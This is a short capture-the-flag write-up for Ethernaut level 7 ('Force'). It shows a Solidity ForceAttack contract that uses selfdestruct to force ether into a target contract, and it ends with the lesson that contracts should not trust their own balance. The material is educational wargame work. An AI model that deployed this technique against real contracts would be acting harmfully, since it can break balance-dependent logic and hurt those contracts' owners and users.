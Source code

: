 <div align="center">

<img src="../assets/levels/7-force.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/7-force-requirements.webp" width="800px"/>

## The hack

It requires the use of `selfdestruct` - which is one of the ways to forcibly send ether to a contract

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and call's selfDestruct on itself - forwarding any ether in it to the vulnerable contract

```
contract ForceAttack {

    function attack(address payable _vulnerableContract) public payable {
        require(msg.value > 0);
        selfdestruct(_vulnerableContract);
    }
}
```

## Takeaway

selfdestuct's existence and that contracts should be vvary of using logic tied to their balance

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
